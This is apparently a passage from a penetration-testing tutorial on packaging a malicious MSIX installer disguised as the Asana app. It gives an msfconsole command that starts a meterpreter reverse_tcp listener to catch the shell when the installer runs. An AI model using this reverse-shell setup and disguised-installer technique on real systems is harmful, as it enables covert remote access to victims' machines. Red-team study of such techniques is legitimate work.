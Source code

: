 ![msix26](https://github.com/user-attachments/assets/1d23ac8d-fe99-4308-9880-18486872435f)

- Save and exit. Finally create your MSIX file.

## Testing our malicious sample

> **Alert** `Ensure that the Asana application is not installed in the system`

![msix27](https://github.com/user-attachments/assets/a3c179c8-fb21-4dae-9b31-b35074c37be5)

- Setup our listener.

```s
msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.1.71;set LPORT 9001; set EXITFUNC thread; set EXITONSESSION false; exploit -j" 2>&1
```

![msix28](https://github.com/user-attachments/assets/6c698052-9a7c-4657-82c8-d9a55f9d8462)

- Run the MSIX installation and catch your shell.

![msix29](https://github.com/user-attachments/assets/80617c17-d3dd-4465-aafc-fb2a9e7b67dc)

- Happy pentesting!

